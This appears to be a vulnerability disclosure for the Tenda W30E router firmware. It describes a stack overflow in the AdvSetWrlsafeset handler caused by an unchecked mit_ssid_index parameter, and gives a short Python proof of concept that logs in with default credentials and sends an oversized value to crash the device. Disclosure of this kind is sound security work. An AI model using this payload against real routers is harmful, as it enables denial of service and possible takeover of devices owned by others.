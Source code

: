 # Tenda W30E V1.0.1.25(633) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2218.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/AdvSetWrlsafeset/img/2.png)

In /goform/AdvSetWrlsafeset, mit_ssid_index will be spliced into v28 by sprintf. It is worth noting that there is no size check, which leads to a stack overflow vulnerability

## Poc

```python
import requests

cmd = b'mit_ssid_index=' + b'a' * 0x3000

url = b"http://192.168.10.103/login/Auth"
payload = b"http://192.168.10.103/goform/AdvSetWrlsafeset/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

You can see that the router crashed, and finally you can write an exp to get a root shell
